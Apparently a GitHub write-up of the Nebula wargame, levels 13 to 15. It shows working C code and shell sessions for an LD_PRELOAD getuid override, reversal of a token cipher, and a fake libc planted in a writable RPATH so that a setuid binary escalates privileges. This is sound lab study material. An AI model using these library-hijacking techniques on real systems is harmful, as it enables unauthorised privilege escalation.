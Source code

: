 nebula-exercises
================
> notes about nebula exercises

> [ref: exploit-exercises.com/nebula/](https://exploit-exercises.com/nebula/)


level 13
--------

##### overload getuid call to return 'FAKEUID'
```c
// fake_getuid.c
#include <sys/types.h>

uid_t getuid()
{
    return 1000;
}
```

##### build lib and use LD_PRELOAD
```bash
level13@nebula:~$ gcc --shared -fPIC fake_getuid.c -o fake_getuid.so
level13@nebula:~$ export LD_PRELOAD=/home/level13/fake_getuid.so
```

##### copy flag13 binary to level13 home to use LD_PRELOAD trick
```bash
# LD_PRELOAD needs reel uid == effective uid
level13@nebula:~$ cp /home/flag13/flag13 /home/level13
level13@nebula:~$ ./flag13 
your token is b705702b-76a8-42b0-8844-3adabbe5ac58
```

##### use token as pwd for flag13 user and execute getflag
```bash
level13@nebula:~$ su - flag13
Password: 
flag13@nebula:~$ getflag 
You have successfully executed getflag on a target account
```


level 14
--------

##### inspect flag14 binary

```bash
level14@nebula:~$ python -c "print 'a'*5" | /home/flag14/flag14 -e
abcde

level14@nebula:~$ python -c "print 'b'*5" | /home/flag14/flag14 -e
bcdef

# y = chr(ord(x) + pos(x))
```

##### write a reverse script
```python
# reverse.py
# read token in /home/flag14/token
token = "857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW."
reverse = ""

for i, c in enumerate(token):
    reverse += chr(ord(c) - i)

print(reverse)
# --> output: 8457c118-887c-4e40-a5a6-33a25353165
```

##### check reverse.py
```bash
python reverse.py | /home/flag14/flag14 -e
857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW.
```

##### use reversed token as pwd for flag14 user and execute getflag
```
level14@nebula:~$ su - flag14
Password: 
flag14@nebula:~$ getflag 
You have successfully executed getflag on a target account
```


level 15
--------

##### inspect flag15 binary

```bash
# 0. see 'man dlopen' for linker dynamic library search priority order
level15@nebula:~$ man dlopen
(ELF only) If the executable file for the calling program contains a DT_RPATH tag,
and does not contain a  DT_RUN‐PATH tag then the directories listed in the DT_RPATH tag are searched.

# 1. strace binary: trace system calls
level15@nebula:~$ strace /home/flag15/flag15
open("/var/tmp/flag15/libc.so.6", O_RDONLY)

# 2. readelf / objdump / nm binary: get more information about dynamic section and symbols

# readelf
level15@nebula:~$ readelf --dynamic /home/flag15/flag15 
Dynamic section at offset 0xf20 contains 21 entries:
  Tag        Type                         Name/Value
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]

# objdump headers
level15@nebula:~$ objdump -x /home/flag15/flag15
Dynamic Section:
  NEEDED               libc.so.6
  RPATH                /var/tmp/flag15

# objdump dynamic symbols
level15@nebula:~$ objdump --dynamic-syms /home/flag15/flag15

/home/flag15/flag15:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000      DF *UND*	00000000  GLIBC_2.0   puts
00000000  w   D  *UND*	00000000              __gmon_start__
00000000      DF *UND*	00000000  GLIBC_2.0   __libc_start_main
080484cc g    DO .rodata	00000004  Base        _IO_stdin_used

# nm undefined symbols
level15@nebula:~$ nm --undefined-only /home/flag15/flag15 
w _Jv_RegisterClasses
w __gmon_start__
U __libc_start_main@@GLIBC_2.0
U puts@@GLIBC_2.0
```

##### build a fake libc calling the getflag binary

```c
// fake_libc.c
#include <sys/types.h>

void __cxa_finalize(void * d)
{

}

int __libc_start_main(
    int *(main) (int, char * *, char * *),
    int argc, char * * ubp_av, void (*init) (void),
    void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);
  system("getflag");
}
```
```
# version.map
GLIBC_2.0 {
        global:
		__libc_start_main;
};
```
```bash
# build dynamic fake lib with a version script and static link
level15@nebula:~$ gcc --shared -fPIC -static-libgcc -Wl,--version-script=./version.map,-Bstatic fake_libc.c -o libc.so.6
```

##### copy it to RPATH

```bash
level15@nebula:~$ cp libc.so.6 /var/tmp/flag15/
```

##### run suid flag15
```bash
level15@nebula:~$ /home/flag15/flag15 
You have successfully executed getflag on a target account
Segmentation fault
```
